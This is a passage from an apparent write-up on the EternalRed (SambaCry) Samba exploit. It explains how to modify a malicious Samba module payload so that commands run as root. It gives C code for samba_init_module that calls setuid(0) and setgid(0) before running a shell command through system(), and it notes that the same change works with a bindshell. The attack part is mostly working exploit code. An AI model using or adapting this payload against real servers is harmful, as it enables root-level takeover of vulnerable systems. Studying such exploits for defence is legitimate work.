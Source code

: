 <h2>Root Root!</h2>
<br>
As you may see on the picture above, the directory created is owned by nobody. If you tried all the shells above, you will realise that whoami will give back nobody.
It would be better if we could get root right? Just a little bit of modification  (tweak) is needed here. From the C payload, after detachment but before command/shell execution, we can set our UID and GUID to 0 and simply become root. 
Simply add setuid(0) and setgid(0) like this:

<br>
```
int samba_init_module(void)
{
    detachFromParent();
    char command[50];
    setuid(0);
    setgid(0);

    strcpy( command, "mkdir /tmp/testroot" );
    system(command);
    return 0;
}
```

<br>
After complilation and execution, the test folder is created as root.
<br>

![root](/img/EternalRed/toroot.png)
<br>
Works with the original bindshell too.
<br>

![root](/img/EternalRed/rootbind.png)
<br>
